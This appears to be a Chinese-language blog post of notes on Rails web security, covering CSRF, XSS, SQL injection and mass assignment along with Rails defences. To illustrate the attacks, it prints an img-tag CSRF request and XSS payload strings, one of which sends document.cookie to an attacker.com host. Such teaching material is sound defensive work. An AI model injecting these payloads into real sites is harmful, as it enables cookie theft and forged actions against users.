 ```yaml
---
layout: post
title: Web安全
permalink: websec
---
```


Rails作为一个成熟的框架，已经默认提供了必要的安全机制，从而使得小白也能初始化出安全的站点。但安全还在人心，
只有在开发中时刻注意，才不会留下漏洞。

一定要对网站的入口慎之又慎，不要理所当然用户会按照你的设计去进行输入！

# Sessions

> HTTP is a stateless protocol. Sessions make it stateful.

Session机制是为了解决web的无状态特性，通过浏览器回传cookies来确认当前的session。


# Cross-Site Request Forgery (CSRF)
CSRF，跨站伪装请求。

CSRF的场景是：访问一个黑站，结果在里面有一个链接被浏览器自动加载访问，而这个链接可能执行是删除、关注等操作。

起因：在浏览器请求一个URL时，会顺便得到这个网站的cookies。有了cookies就有了权限，如果请求的那个
URL是在另一个网站中嵌入的，比如：

```html
<img src="http://target.com/1/destroy" />
```

那么就会执行相应的操作。浏览器并不知道这是否是用户的本意，只会按部就班的去解析，遇到img的src就去请求。

应对：对非 GET 需要验证安全令牌，只有通过才能给执行。而这个安全令牌是 Server 在 render 表单等时自己生成的。浏览器只有拥有这个令牌才可以通过 Server 的验证进行所提交的操作。

在Rails中，只需要在最顶层的ApplicationController中加入：

```ruby
protect_from_forgery with: :exception
```

然后在最顶层的layout文件的head中加入：

```
<%= csrf_meta_tags %>
```

会在 html header 里生成：

```js
<meta name="csrf-token" content="xxxxxxxxxxxx-token" />
```

当然在有 Ajax 操作时，也需要加入 X-CSRF-Token head：

```js
xhr.setRequestHeader('X-CSRF-Token', $('meta[name="csrf-token"]').attr('content'));
```


# Cross-Site Scripting (XSS)
跨站执行脚本，等于别人可以在你的网站页面上写自己的代码。十分恐怖！

流程：黑客注入代码，网站保存，受害者打开网站执行代码。

## HTML/JavaScript 注入

```html
<script>alert('Hello');</script>

<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">


<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>

```

## 防御

使用escapeHTML()或它的alias h()对二次显示的输入内存进行转义，这样：

```
字符& " < >就变成了&amp; &quot; &lt;和&rt;了。
```

能被浏览器还原，但是不能执行。

但是有时确实需要让用户输入带标签的文本啊！

使用[sanitize()](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html)，
它只运行白名单里的tag和attributes显示：

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

# Redirection
防止跳到钓鱼网站。

# File Upload/Download
上传下载时，对文件名进行过滤，保证其安分呆在指定的目录里。

# SQL 注入
尽量使用已经封装好的查询语句，而不是自己写SQL。

# mass assigns

不要把 id 也允许用户修改。

当然默认都不会，可如果自己重新了 model 的 to_param 函数，换了 id 呢，比如 name。

一般会允许用户修改 name， 那它就能改成别人的 name 啊！

但如果进行了 uniqueness 验证，修改相同的 name id 是过不了，除非不相同，那么
在提交了修改 name id form 后，Rails 会需要调用 update 方法，就不找不到 user 了。
但还是会产生 nil error，这也算被动防御了。

而且关系都是用 id 关联的，所以影响不大。

# 工具

## [sqlmap]()

## [Burp](https://portswigger.net/burp/)

# 参考
* http://guides.rubyonrails.org/security.html
